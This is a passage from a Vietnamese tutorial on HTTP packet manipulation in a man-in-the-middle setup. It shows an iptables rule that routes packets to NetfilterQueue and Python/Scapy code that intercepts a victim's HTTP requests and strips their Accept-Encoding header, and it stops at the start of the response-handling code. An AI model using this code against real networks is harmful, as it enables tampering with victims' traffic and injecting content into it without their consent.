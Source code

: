 bậy giờ chúng ta sẽ xây dựng đoạn script để sửa đổi gói tin HTTP khi các packets từ victim đến được card mạng của attacker và mình cần dùng:

- NetfilterQueue: NetfilterQueue là thư viện Python cung cấp quyền truy cập vào các gói khớp với quy tắc iptables trong Linux. Các gói phù hợp có thể được chấp nhận, loại bỏ, thay đổi hoặc đánh dấu.
- iptable (xem thêm về iptable <a href="https://wiki.matbao.net/kb/bao-mat-may-chu-linux-huong-dan-cau-hinh-iptables-can-ban/#2-tao-rule-iptables">tại đây</a>) có 3 chain:
  - **Forward chain** : lọc gói khi đi đến các server khác.
  - **Input chain** : lọc gói khi đi vào trong server.
  - **Output chain** : lọc gói khi ra khỏi server.

### Khai thác tại local

- mình dùng câu lệnh trong iptables là

```bash!
iptables -A INPUT -j NFQUEUE --queue-num 0
```

để lọc các gói khi đi vào trong máy tính attacker và chúng ta sẽ khai thác trên máy local của attacker và được đoạn code sau:

```python!
from scapy.all import *
from colorama import init, Fore
from netfilterqueue import NetfilterQueue
import re

# initialize colorama
init()

# define colors
GREEN = Fore.GREEN
RESET = Fore.RESET


def process_packet(packet):
    """
    This function is executed whenever a packet is sniffed
    """
    # convert the netfilterqueue packet into Scapy packet
    spacket = IP(packet.get_payload())
    if spacket.haslayer(Raw) and spacket.haslayer(TCP):
        if spacket[TCP].dport == 80:
            # HTTP request
            print(f"[*] Detected HTTP Request from {spacket[IP].src} to {spacket[IP].dst}")
            try:
                load = spacket[Raw].load.decode()
            except Exception as e:
                # raw data cannot be decoded, apparently not HTML
                # forward the packet exit the function
                packet.accept()
                return
            # remove Accept-Encoding header from the HTTP request
            new_load = re.sub(r"Accept-Encoding:.*\r\n", "", load)
            # set the new data
            spacket[Raw].load = new_load
            # set IP length header, checksums of IP and TCP to None
            # so Scapy will re-calculate them automatically
            spacket[IP].len = None
            spacket[IP].chksum = None
            spacket[TCP].chksum = None
            # set the modified Scapy packet back to the netfilterqueue packet
            packet.set_payload(bytes(spacket))
        if spacket[TCP].sport == 80:
            # HTTP response
```